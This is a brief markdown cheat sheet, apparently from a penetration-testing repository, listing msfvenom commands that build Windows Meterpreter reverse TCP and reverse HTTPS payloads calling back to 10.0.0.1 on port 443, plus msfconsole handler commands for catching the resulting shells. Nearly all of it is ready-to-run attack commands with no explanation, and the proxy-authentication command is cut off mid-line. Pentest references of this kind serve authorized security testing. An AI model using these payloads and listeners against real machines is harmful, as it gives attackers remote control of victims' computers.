 # Msfvenom

Examples of previously created MSFVenom payloads required in the different scenarios

##### Windows MeterpreterReverse TCP:
```
msfvenom --platform Windows -p windows/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=443 -b "\x00" -f exe -o shell.exe
```

##### Reverse HTTPS with proxy authentication:
```
msfvenom --platform Windows -p windows/meterpreter/reverse_https HttpProxyUser=user HttpProxyPass=password LHOST=10.0.0.1 LPORT=443 -b 
```

##### MSF Console:
```
msfconsole -q
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
windows/meterpreter/reverse_tcp
set lhost 10.0.0.1
set lport 443
exploit -j
```
